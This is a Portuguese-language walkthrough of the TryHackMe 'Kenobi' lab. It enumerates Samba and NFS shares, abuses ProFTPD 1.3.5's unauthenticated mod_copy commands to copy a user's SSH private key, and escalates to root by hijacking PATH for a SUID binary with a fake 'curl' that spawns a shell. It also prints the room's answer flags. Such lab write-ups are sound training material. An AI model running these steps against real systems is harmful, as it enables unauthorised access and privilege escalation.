

# Introdução

Passo a passo sobre como explorar uma máquina Linux. Enumere o Samba para compartilhamentos, manipule uma versão vulnerável do proftpd e amplie seus privilégios com manipulação de variável PATH.

# Execução

## Task 1 - Portscan inicial

Antes de executar o nmap:

```shell
export TARGET=IP_DO_ALVO
```

Execução do nmap:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/kenobi]
└─# nmap -A -T5 -Pn -p- $TARGET -oA portscan -vvv
```
### Questões:

- a. ***Make sure you're connected to our network and deploy the machine*** *Não há necessidade de resposta*

- b. ***Scan the machine with nmap, how many ports are open?*** *7*

## Task 2 - Enumerating Samba for shares

O Samba é o conjunto de programas de interoperabilidade padrão do Windows para Linux e Unix. Ele permite que os usuários finais acessem e usem arquivos, impressoras e outros recursos comumente compartilhados na intranet ou internet de uma empresa. É muitas vezes referido como um sistema de arquivos de rede.

O Samba é baseado no protocolo cliente/servidor comum do Server Message Block (SMB). O SMB é desenvolvido apenas para Windows, sem o Samba, outras plataformas de computador ficariam isoladas das máquinas Windows, mesmo que fizessem parte da mesma rede.

### Nmap

Pode-se usar nmap  para enumerar o samba, conforme abaixo:

```shell
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP
```
A enumeração já vai executar na porta específica e utilizar scripts próprios para a finalidade.

Saída:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/kenobi]
└─# nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.194.119 -oX enumsamba
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-16 09:21 EDT
Nmap scan report for 10.10.194.119
Host is up (0.37s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.194.119\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.194.119\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.194.119\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 43.91 seconds
```

Resposta para questão ***a***

O Samba usa duas portas padrões: 139 e 445.

- **Porta 139**: o SMB era executado originalmente sobre o NetBIOS usando a porta 139. O NetBIOS é uma camada de transporte mais antiga que permite que computadores Windows conversem entre si na mesma rede.
- **Porta 445**: versões mais recentes do SMB (após o Windows 2000) começaram a usar a porta 445 sobre uma pilha TCP. O uso do TCP permite que o SMB funcione pela internet.

### Conectar

Na maioria das distribuições do Linux o smbclient já está instalado. Ele é utilizado para interagir, por exemplo, com compartilhamentos smb. 

```
smbclient //<ip>/anonymous
```

Usando sua máquina, conecte-se ao compartilhamento de rede da máquina.

```shell
┌──(root㉿kali)-[/tryhackme/rooms/kenobi]
└─# smbclient //$TARGET/anonymous
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> 
```

Sucesso de conexão sem senha!

Para consultar a lista de comandos disponíveis, basta pressionar TAB duas vezes:

```shell                                   
┌──(root㉿kali)-[/tryhackme/rooms/kenobi]
└─# smbclient //$TARGET/anonymous
Password for [WORKGROUP\root]:
Try "help" to get a list of possible commands.
smb: \> 
..              echo            ls              print           setmode
?               exit            mask            prompt          showacls
allinfo         get             md              put             showconnect
altname         geteas          mget            pwd             stat
archive         getfacl         mkdir           q               symlink
backup          hardlink        more            queue           tar
blocksize       help            mput            quit            tarmode
cancel          history         newer           rd              tcon
case_sensitive  iosize          notify          readlink        tdis
cd              l               open            recurse         tid
chmod           lcd             posix           reget           timeout
chown           link            posix_encrypt   rename          translate
close           listconnect     posix_mkdir     reput           unlock
del             lock            posix_open      rm              utimes
deltree         logoff          posix_rmdir     rmdir           volume
dir             logon           posix_unlink    scopy           vuid
du              lowercase       posix_whoami    setea           wdel
smb: \> 
```
### Listar conteúdo

Para listar o conteúdo, basta utilizar o comando ls

```shell
smb: \> ls
  .                                   D        0  Wed Sep  4 06:49:09 2019
  ..                                  D        0  Wed Sep  4 06:56:07 2019
  log.txt                             N    12237  Wed Sep  4 06:49:09 2019

                9204224 blocks of size 1024. 6877116 blocks available
smb: \> 
```
Resposta para questão ***b***!

### Download de arquivos

Estando na console do SMB, é possível realizar o download de arquivos com o comando get:

```shell
smb: \> get log.txt
getting file \log.txt of size 12237 as log.txt (9.7 KiloBytes/sec) (average 9.7 KiloBytes/sec)
smb: \> quit
                                                                                 
┌──(root㉿kali)-[/tryhackme/rooms/kenobi]
└─# ls log.txt 
log.txt
```

É possível também baixar recursivamente o compartilhamento SMB. Não precisa fornecer senha no cenário desta room:

```
smbget -R smb://<ip>/anonymous
```
Exemplo:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/kenobi]
└─# smbget -R smb://$TARGET/anonymous
Password for [root] connecting to //10.10.194.119/anonymous: 
Using workgroup WORKGROUP, user root
Can't open log.txt: File exists
Failed to download /log.txt: File exists
```

Aqui deu erro, pois o arquivo log.txt já existia. Tinha sido baixado anteriormente.

No arquivo há algumas coisas interessantes encontradas.
- Informações geradas para Kenobi ao gerar uma chave SSH para o usuário
- Informações sobre o servidor ProFTPD.

A porta usada pelo FTP será a resposta da questão ***c***!

### RPC

Na varredura de porta nmap inicial, a porta 111 foi listada executando o serviço rpcbind. Este é apenas um servidor que converte o número do programa de chamada de procedimento remoto (RPC) em endereços universais. Quando um serviço RPC é iniciado, ele informa ao rpcbind o endereço no qual ele está escutando e o número do programa RPC está preparado para servir.

No caso desta room, a porta 111 é o acesso a um sistema de arquivos de rede. Pode-se usar o nmap para enumerar isso.

```shell
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $TARGET -oX rpc
```
A opção -oX é para gravar a saída em um arquivo XML.

Saída:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/kenobi]
└─# nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount $TARGET -oX rpc
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-16 09:55 EDT
Nmap scan report for 10.10.194.119
Host is up (0.34s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836520.0  6877108.0  22%   16.0T        32000

Nmap done: 1 IP address (1 host up) scanned in 4.61 seconds
```
O ponto de montagem ***/var*** é a resposta da questão ***d***.

### Questões:

- a. ***Using the nmap command above, how many shares have been found?*** *3*

- b. ***Once you're connected, list the files on the share. What is the file can you see?*** *log.txt*

- c. ***What port is FTP running on?*** *21*

- d. ***What mount can we see?*** */var*

## Task 3 - Gain initial access with ProFtpd

O ProFtpd é um servidor FTP gratuito e de código aberto, compatível com sistemas Unix e Windows. É sempre interessante verificar por vulnerabilidades em versões antigas dele.

### Descobrindo a versão

Uma forma bem simples de descobrir é usando o netcat para testar uma conexão inicial, iremos receber o banner com a versão. Outra opção é o scan do próprio nmap com a opção **-sV**.

```shell
nc $TARGET 21
```
Exemplo:
```shell
┌──(root㉿kali)-[/tryhackme/rooms/kenobi]
└─# nc $TARGET 21  
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.194.119]
```
A versão é a 1.3.5, resposta da questão ***a***.

### Pesquisa por exploits

De posse da versão, pode-se realizar uma pesquisa por exploits. Uma excelente fonte de pesquisa é o [exploit-db](https://www.exploit-db.com/).

Através do Kali Linux, também é possível realizar pesquisa de exploit com o comando searchsploit:

```shell
┌──(root㉿kali)-[/tryhackme/rooms/kenobi]
└─# searchsploit proftp 1.3.5        
----------------------------------------------- ---------------------------------
 Exploit Title                                 |  Path
----------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution ( | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Exec | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Exec | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                      | linux/remote/36742.txt
----------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Foram listados 4. Essa é a resposta da questão ***b***. 

Mais indormações sobre o mod_copy [aqui](http://www.proftpd.org/docs/contrib/mod_copy.html).

O módulo mod_copy implementa os comandos SITE CPFR e SITE CPTO, que podem ser usados para copiar arquivos/diretórios de um lugar para outro no servidor. Qualquer cliente não autenticado pode aproveitar esses comandos para copiar arquivos de qualquer parte do sistema de arquivos para um destino escolhido.

Sabe-se que o serviço FTP está sendo executado como o usuário Kenobi (do arquivo log.txt baixado do compartilhamento smb) e uma chave ssh é gerada para esse usuário.

Agora, copia-se a chave privada do Kenobi usando os comandos SITE CPFR e SITE CPTO.

```shell
┌──(kali㉿kali)-[~]
└─$ nc 10.10.87.116 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.87.116]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
Para conexão foi usado o netcat (nc).

Como já se sabe, o ***/var*** é um ponto de montagem smb (task 2), ficou fácil obter a chave privada do usuário que movemos para ***/var/tmp***.

Agora, basta montar:


Depois disto, pode-se simplesmente acessar o diretório /mnt/kenobiNFS/tmp, copiar e ajustar permissões na chave privada do usuário kenobi. Por fim, usar esta chave para acesso ssh ao host alvo.

Execução:


Agora, basta ler o arquivo user.txt que está no home do usuário para responder a questão ***c***.

### Questões

- a. ***What is the version?*** *1.3.5*

- b. ***How many exploits are there for the ProFTPd running?*** *4*

- c. ***What is Kenobi's user flag (/home/kenobi/user.txt)?*** *d0b0f3f53b6caa532a83915e19224899*

## Task 4 - Privilege Escalation with Path Variable Manipulation 



Entendendo melhor o que são SUID, SGID e Sticky Bits.

| Permissão | Em Arquivos | Em Diretórios |
| --------- | ----------- | ------------- |
| SUID Bit | O usuário executa o arquivo com permissões do proprietário do arquivo | \- |
| SGID Bit | O usuário executa o arquivo com a permissão do grupo proprietário. | O arquivo criado no diretório obtém o mesmo grupo proprietário. |
| Sticky Bit | Sem aplicação | Os usuários são impedidos de excluir arquivos de outros usuários. |

Bits SUID podem ser perigosos, alguns binários como passwd precisam ser executados com privilégios elevados (como redefinir sua senha no sistema). No entanto, outros arquivos personalizados que tenham o bit SUID podem levar a problemas relacionados a elevação de privilégios.

No texto da task é indicado como localizar arquivos com essas permissões:

```shell
find / -perm -u=s -type f 2>/dev/null
```
O trecho "***2>/dev/null***" é para suprimir erros na tela.

Execução:
```shell
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```
Através da url [GTFOBins](https://gtfobins.github.io/), é possível ter uma fonte de consulta sobre binários que permitem elevação de privilégios.

Um arquivo chama atenção: ***/usr/bin/menu***. Este será a resposta da questão ***a***.

Executa-se esse arquivo para ver o que acontece.

```shell
kenobi@kenobi:~$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
HTTP/1.1 200 OK
Date: Sun, 17 Jul 2022 13:31:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Wed, 04 Sep 2019 09:07:20 GMT
ETag: "c8-591b6884b6ed2"
Accept-Ranges: bytes
Content-Length: 200
Vary: Accept-Encoding
Content-Type: text/html
```
São exibidas inicialmente, 3 opções. Será a resposta da questão ***b***.

Através do comando ***strings*** no Linux, é possível procurar textos legíveis por humanos em um binário.

Execução:

```shell
strings /usr/bin/menu
```
Um trecho chama atenção:

```shell
curl -I localhost
uname -r
ifconfig
```

Trata-se dos comandos executados no S.O.

O que pode ser feito é criar um arquivo chamado curl com um comando que chama a execução de um shell, pois o binário ***menu*** tem permissão SUID, logo, o comando de shell será executado com elevação de privilégios.

Mas como fazer com que o binário ***menu*** execute  o curl "fake" ao invés do curl real? ***Através da manipulação da variável PATH***.

Essa manipulação só é possível, porque na saída do comando strings, os comandos estão sendo usados sem o caminho absoluto (/usr/bin/curl, /usr/bin/uname, etc)

Execução:

```shell
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# 
```

Elevação de privilégios para usuário root obtida com sucesso!

Basta ler o arquivo /root/root.txt para responder a questão ***d***.

### Questões:

- a. ***What file looks particularly out of the ordinary?*** */usr/bin/menu*

- b. ***Run the binary, how many options appear?*** *3*

- c. ***Apenas informações*** *Não há necessidade de resposta*

- d. ***What is the root flag (/root/root.txt)?*** *177b3cd8562289f37382721c28381f02*


